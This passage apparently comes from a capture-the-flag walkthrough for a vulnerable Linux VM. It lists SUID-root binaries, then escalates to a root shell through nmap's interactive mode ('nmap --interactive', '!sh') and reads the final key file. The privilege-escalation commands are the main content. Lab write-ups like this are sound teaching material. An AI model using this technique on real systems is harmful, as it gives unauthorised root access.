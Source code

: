 ```bash
-rwsr-xr-x 1 root root  11K Feb 25  2015 /usr/lib/pt_chown  --->  GNU_glibc_2.1/2.1.1_-6(08-1999)
-rwsr-xr-x 1 root root 152K Mar 12  2015 /usr/bin/sudo  --->  /sudo$
-rwsr-xr-x 1 root root 493K Nov 13  2015 /usr/local/bin/nmap
-r-sr-xr-x 1 root root 9.4K Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root  14K Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
```

Yep, `nmap`. Let's abuse it. Source: [here](https://pentestlab.blog/2017/09/25/suid-executables/).
```bash
robot@linux:/tmp$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
```

key 3:
```bash
# cd /root
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
REDACTED
```